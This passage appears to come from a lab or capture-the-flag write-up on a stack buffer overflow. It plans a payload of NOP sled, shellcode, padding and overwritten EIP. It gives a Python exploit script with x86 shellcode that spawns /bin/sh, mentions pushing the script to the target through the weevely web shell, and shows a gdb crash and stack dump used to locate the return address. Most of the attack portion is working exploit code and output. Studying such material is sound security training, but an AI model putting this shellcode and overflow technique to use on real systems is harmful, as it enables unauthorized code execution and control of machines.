 ##### First payload

- Find size, python len() : 55 bytes
- Order we want : NOP + SHELLCODE + PAD + EIP
- 171 - 55 = 116, let's divide both side
- 58 bytes NOP
- 58 bytes PAD

Code (exploit_1.py):
```python
import struct
pad = "\x41" * 58
EIP = struct.pack("I", 0xbfe0e210)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 58
print NOP + shellcode + pad + EIP
```
- Fill with 'A'
- `struct.pack` is useful for little-endianing addresses (bytes inversion)

Then I can push `exploit_1.py` to VM by using `:file_upload` `weevely` command

#####  Return address to put in EIP
For finding return address :
```
(gdb) run $(python /tmp/exploit_1.py)
Program received signal SIGSEGV, Segmentation fault.
    0xc042dc78 in ?? ()
```

Then look the resulting stack :
```
(gdb) x/100x $esp-200
x/100x $esp-200
0xbf9f3558:	0x00000000	0x080484a8	0xbf9f3571	0xbf9f3cdc
0xbf9f3568:	0x00000000	0xb773db48	0x90909001	0x90909090
0xbf9f3578:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf9f3588:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf9f3598:	0x90909090	0x90909090	0x90909090	0x90909090
0xbf9f35a8:	0x31909090	0xb0db31c0	0x5380cd06	0x74742f68
0xbf9f35b8:	0x642f6879	0xe3897665	0xb966c931	0x05b02712
0xbf9f35c8:	0xc03180cd	0x2f2f6850	0x2f686873	0x896e6962
0xbf9f35d8:	0x895350e3	0x0bb099e1	0x414180cd	0x41414141
0xbf9f35e8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbf9f35f8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbf9f3608:	0x41414141	0x41414141	0x41414141	0x41414141
0xbf9f3618:	0x41414141	0xc042dc78	0x00000000	0xbf9f36b4
0xbf9f3628:	0xbf9f36c0	0xb774fe9a	0x00000002	0xbf9f36b4
0xbf9f3638:	0xbf9f3654	0x0804974c	0x0804821c	0xb7732000
0xbf9f3648:	0x00000000	0x00000000	0x00000000	0x135ab3f4
0xbf9f3658:	0x965b37e5	0x00000000	0x00000000	0x00000000
0xbf9f3668:	0x00000002	0x08048360	0x00000000	0xb77556e0
0xbf9f3678:	0xb75db639	0xb7762000	0x00000002	0x08048360
0xbf9f3688:	0x00000000	0x08048381	0x0804845d	0x00000002
0xbf9f3698:	0xbf9f36b4	0x080484b0	0x08048520	0xb7750350
0xbf9f36a8:	0xbf9f36ac	0x0000001c	0x00000002	0xbf9f3cc8
0xbf9f36b8:	0xbf9f3cdc	0x00000000	0xbf9f3d8c	0xbf9f3db9
---Type <return> to continue, or q <return> to quit---

```
